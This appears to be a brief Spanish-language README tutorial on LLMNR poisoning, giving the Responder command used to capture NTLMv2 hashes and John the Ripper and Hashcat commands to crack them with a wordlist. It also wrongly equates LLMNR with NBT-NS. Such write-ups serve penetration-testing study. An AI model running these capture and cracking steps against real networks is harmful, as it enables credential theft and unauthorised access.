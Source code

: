 # Qué es LLMNR?

- Se usa para identificar hosts cuando el DNS falla.
- Antes se conocía como `NBT-NS`
- El servicio devuelve el `username` de un usuario y un `Hash NTLMv2` cuando responde.

# Explicación gráfica del vector de ataque

[Ver la imagen](Images/main/README.md)

# Iniciando Ataque (Responder)

```
python /usr/share/responder.py -I tun0 -rdw
```

[Ver el Responder en proceso](Images/Responder/README.md)

[Ver la obtención de Hash NTMLv2](Images/Hash/README.md)

# Romper el Hash (JohnTheRipper)

```
john --wordlist=/usr/share/wordlists/rockyou.txt <hashfile>
```

# Romper el Hash (Hashcat)

```
hashcat -m 5600 <hashfile> rockyou.txt --force
```
